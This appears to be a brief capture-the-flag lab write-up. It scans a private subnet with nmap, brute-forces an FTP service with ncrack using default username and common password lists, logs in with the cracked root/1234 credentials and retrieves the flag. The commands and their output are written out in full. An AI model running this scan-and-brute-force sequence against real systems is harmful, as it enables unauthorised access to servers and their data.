 # Ethical-Hacking

flag[adcb1f]:
nmap -p21  -oA flaggor 10.0.0-15.0-254 
Host: 10.0.3.51 ()	Ports: 21/open/tcp//ftp///
searched this on google "password cracking ftp kali"
ncrack -U http_default_users.txt -P adobe_top100_pass.txt ftp://10.0.3.51 
  Discovered credentials for ftp on 10.0.3.51 21/tcp:
  10.0.3.51 21/tcp ftp: 'root' '1234'
https://www.howtogeek.com/412626/how-to-use-the-ftp-command-on-linux/
  ftp 10.0.3.51 
  username:root
  pass:1234
ls
flag{adcb1f4352c6330e2ed29a2a427d80964382b57b270db8}.jpg
-------------------------------------------------------------------------------------------
